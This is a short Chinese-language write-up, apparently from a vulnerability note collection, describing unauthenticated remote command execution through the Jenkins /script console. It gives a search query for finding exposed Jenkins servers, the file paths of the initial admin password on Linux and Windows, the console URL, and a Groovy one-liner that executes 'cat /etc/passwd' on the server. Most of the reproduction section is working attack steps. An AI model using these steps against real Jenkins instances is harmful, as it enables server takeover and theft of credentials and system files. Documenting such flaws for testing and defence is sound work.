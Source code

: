 # Jenkins script 未授权远程命令执行漏洞

## 漏洞描述

Jenkins 登录后访问 /script 页面，其中存在命令执行漏洞，当存在未授权的情况时导致服务器被入侵

## 漏洞影响

```
Jenkins
```

## 网络测绘

```
app="Jenkins"
```

## 漏洞复现

账号密码存在于：

```
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

登录后台，或在未授权的情况下访问

```
http://xxx.xxx.xxx.xxx/script
```

在脚本命命令模块执行系统命令

```
println 'cat /etc/passwd'.execute().text
```

![image-20220525163148014](./images/202205251631073.png)